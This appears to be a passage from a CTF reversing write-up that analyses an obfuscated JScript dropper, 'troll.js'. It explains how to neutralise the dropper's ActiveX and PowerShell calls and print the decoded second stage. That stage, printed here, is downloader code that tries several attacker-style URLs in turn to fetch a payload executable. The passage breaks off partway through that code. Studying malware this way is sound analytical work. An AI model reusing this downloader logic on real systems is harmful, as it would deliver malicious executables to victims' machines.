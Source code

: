 So , in this "bin" file we can see a "troll.js" file which contains lot of javascript. At the end of it, there are some ActiveX Object creation and a powershell command.
After removing the extra 'F' in this line, we see it tries to remove 'http://www.kimcannotcrack.shit69/non.existant?enkP' which, sadly, does not exist :()

So, just run this javascript after having removed call to anything suspicious. Especially, comment everything after aSV8(); (ie last few lines) and replace :

```javascript
var aSV8 = LsIZ(lX0vbnD);
```

with:

```javascript
console.log(LsIZ);
console.log(lX0vbnD);
```

This will give you a new piece of JS code (which is likely eval'ed by `LsIZ`):

```javascript
function getDataFromUrl(url, callback) {
    try {
        var xmlHttp = new ActiveXObject("MSXML2.XMLHTTP");
        xmlHttp.open("GET", url, false);
        xmlHttp.send();
        if (xmlHttp.status == 200) {
            return callback(xmlHttp.ResponseBody, false);
        } else {
            return callback(null, true);
        }
    } catch (error) {
        return callback(null, true);
    }
}

function getData(callback) {
    try {
        getDataFromUrl("http://r.u.kidding.me69/DAB58154yc/", function(result, error) {
            if (!error) {
                return callback(result, false);
            } else {
                getDataFromUrl("http://shall.we.playctfga.me69/ni95716oSOsA/", function(result, error) {
                    if (!error) {
                        return callback(result, false);
                    } else {
                        getDataFromUrl("http://omgwtfbbq.no69/VqCj49674sPnb/", function(result, error) {
                            if (!error) {
                                return callback(result, false);
                            } else {
                                getDataFromUrl("http://nono.thiscannot.be69/Isb50659TZdS/", function(result, error) {
                                    if (!error) {
                                        return callback(result, false);
                                    } else {
                                        getDataFromUrl("http://reversing.sg/pdfHWP/part1.flag.exe", function(result, error) {
                                            if (!error) {
                                                return callback(result, false);
                                            } else {
                                                return callback(null, true);
                                            }
                                        });
                                    }
```